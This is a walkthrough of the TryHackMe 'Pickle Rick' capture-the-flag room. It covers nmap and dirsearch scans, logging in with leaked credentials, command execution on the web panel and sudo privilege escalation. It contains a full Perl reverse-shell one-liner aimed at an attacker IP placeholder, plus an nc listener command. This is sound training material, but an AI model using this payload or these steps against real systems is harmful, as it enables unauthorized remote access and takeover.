 ## Pickle Rick Room
# Difficulty: Easy
# www.tryhackme.com

When we first paste the ip into google we get meeted with a webpage.

![image](https://user-images.githubusercontent.com/66257304/131914496-9a5e01b4-ad90-4a55-b779-d04c8bfac683.png)

If we view the source code we see that Rick has left his username as a comment (Silly Rick).

![image](https://user-images.githubusercontent.com/66257304/131914660-aa60069f-f434-41c8-a0c3-f1a13c04673f.png)

# NMAP

Now we should run an nmap scan, use the command `nmap -sC -sV -A [IP]` to see all open ports.

Looks like just port 80 and 22 are open, we dont have mutch to go at here.

![image](https://user-images.githubusercontent.com/66257304/131915021-d402173f-fc19-41cc-b4e5-b255e3f70986.png)

# Dirsearch

Let's run a Dirsearch scan to see if there are any hidden directories.

Use the command `dirsearch -u http://[IP]`

We see there is a robots.txt file, lets have a look.

![image](https://user-images.githubusercontent.com/66257304/131916879-5ed1a304-5044-403b-951f-f2e65cc33f1b.png)

Seem's to just be one of Rick's CatchPhrases, right?

We also see there is a /login.php.

![image](https://user-images.githubusercontent.com/66257304/131916705-75985f80-4b2e-413e-98b7-fd80d12460d8.png)

Let's go to that shall we.

![image](https://user-images.githubusercontent.com/66257304/131916751-28372432-f449-4085-9a50-15efda187ad4.png)

Okay, so now we have a login page, we have Rick's username from earlier but we dont have a password, oh wait, what about Rick's silly thing in the robots.txt file, that might work?

![image](https://user-images.githubusercontent.com/66257304/131917166-fa575c72-7bb1-4e22-96aa-77500ebfa4f9.png)

And Boom, we are in.

Hmmm, seems we can run commands, lets try `ls` to see if it works.

![image](https://user-images.githubusercontent.com/66257304/131917272-e925a713-1cc3-44bb-8255-b640bf8dcb63.png)

And it does, and we see a file called Sup3rS3cretPickl3Ingred.txt, what if we cat that out?

![image](https://user-images.githubusercontent.com/66257304/131917379-a86799e6-47f3-4342-9077-9008ca12510d.png)

Damn...

Looks like were going to have to get a reverse shell, lets set up a listener on port 4242 using the command `nc -lvnp 4242`. 

Then lets use the command `perl -e 'use Socket;$i="[YOUR IP]";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

Now we see a call back on our listener.

![image](https://user-images.githubusercontent.com/66257304/131918250-53c5acb4-7112-47d7-b2c2-e2f5240f6dc3.png)

Now we can cat out that Sup3rS3cretPickl3Ingred.txt file and find the first ingredient.

If we move to /home/rick we find the second ingredient so we can cat out that and answer the question.

If we run the command `sudo -l` we find out that we can run anything as sudo with no passwords (How Crazy) 

If we try to `ls /root` we will get a permission denied error, but since we can run commands as sudo we can run the command `sudo ls /root/3rd.txt` to read out the final ingredient.

Well Done!


